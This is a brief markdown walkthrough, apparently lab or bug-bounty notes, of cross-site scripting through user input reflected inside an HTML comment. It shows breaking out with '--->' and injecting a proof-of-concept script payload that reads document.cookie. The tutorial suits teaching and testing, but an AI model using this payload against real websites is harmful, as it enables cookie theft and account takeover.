


# HTML comment

## Enter random value



## Look at inspector

Notice the html comment in inspector



## Break out of comment

``` html
---> <b> sfsad
```

See the page turn all bold

## Time to inject PoC

```html
---> <script>confirm(document.cookie)</script>
```
